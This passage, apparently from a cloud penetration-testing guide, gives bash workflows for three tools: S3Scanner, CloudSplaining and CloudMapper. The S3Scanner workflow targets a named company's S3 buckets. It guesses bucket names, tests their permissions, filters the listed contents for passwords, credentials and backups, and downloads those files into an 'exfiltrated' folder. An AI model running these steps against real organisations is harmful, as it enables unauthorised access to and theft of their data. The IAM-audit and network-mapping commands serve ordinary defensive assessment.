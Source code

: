 ##### Operational Workflow

A complete S3Scanner workflow might look like:

```bash
# 1. Generate potential bucket names
python s3scanner.py --gen-names targetcompany words.txt --out potential_buckets.txt

# 2. Check which buckets exist
python s3scanner.py --bucket-list potential_buckets.txt --out existing_buckets.txt

# 3. Test permissions on existing buckets
python s3scanner.py --bucket-list existing_buckets.txt --check-perms --out accessible_buckets.txt

# 4. List contents of readable buckets
python s3scanner.py --bucket-list accessible_buckets.txt --list --out bucket_contents.txt

# 5. Download sensitive files (selectively)
grep -E "password|credential|config|backup|database" bucket_contents.txt > sensitive_files.txt
python s3scanner.py --bucket-list accessible_buckets.txt --download --include-file sensitive_files.txt --out-dir ./exfiltrated
```

#### CloudSplaining: IAM Analysis

```bash
# Installation
pip install cloudsplaining

# Generate IAM report
aws iam get-account-authorization-details > authorization-details.json
cloudsplaining scan --input-file authorization-details.json

# Create HTML report
cloudsplaining scan --input-file authorization-details.json --output-directory cloudsplaining-report
```

#### CloudMapper: AWS Network Visualization

```bash
# Installation
git clone https://github.com/duo-labs/cloudmapper.git
cd cloudmapper
pip install -r requirements.txt

# Collect AWS data
python3 collect.py --account <account_name>

# Generate network visualization
python3 prepare.py --account <account_name>
python3 webserver.py
```
